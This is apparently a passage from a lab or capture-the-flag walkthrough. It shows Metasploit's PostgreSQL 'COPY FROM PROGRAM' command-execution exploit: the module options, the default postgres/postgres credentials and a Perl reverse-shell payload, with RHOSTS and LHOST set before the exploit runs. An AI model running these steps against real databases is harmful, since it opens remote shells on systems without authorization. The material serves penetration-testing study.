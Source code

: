 ```bash
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > show options

Module options (exploit/multi/postgres/postgres_copy_from_program_cmd_exec):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   DATABASE           template1        yes       The database to authenticate against
   DUMP_TABLE_OUTPUT  false            no        select payload command output from table (For Debugging)
   PASSWORD           postgres         no        The password for the specified username. Leave blank for a random password.
   RHOSTS                              yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              5432             yes       The target port (TCP)
   TABLENAME          NKDxwGl79MMV     yes       A table name that does not exist (To avoid deletion)
   USERNAME           postgres         yes       The username to authenticate as


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
```

Using the `show options` or `options` command we can see that we need to
change the `RHOSTS` and `LHOST`

```bash
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set RHOSTS <remote IP>
RHOSTS => <remote IP>
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set LHOST <our IP>
LHOST => <our IP>
```

Now we can use our exploit. With the exploit command.
![running exploit](../../Assets/PwnToOwn/msfcmdexecexploit.png)
